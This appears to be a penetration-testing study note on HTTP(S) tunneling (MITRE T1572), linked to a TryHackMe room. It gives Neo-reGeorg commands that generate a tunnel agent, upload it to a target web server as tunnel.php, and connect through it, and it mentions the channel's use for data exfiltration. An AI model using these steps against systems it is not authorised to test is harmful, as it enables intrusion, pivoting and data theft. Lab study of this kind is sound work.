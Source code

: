 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# HTTP(S) Tunneling

## Theory
Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel. We can pivoting throught this.
{% hint style="danger" %}
We can also use HTTP(S) Tunneling as a good [exfiltration](../exfiltration/README.md) channel.
{% endhint %} 
## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:
```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host them on a webserver.
On the attacking machine we can do:
```bash
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php
```
{% endtab %}
{% endtabs %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}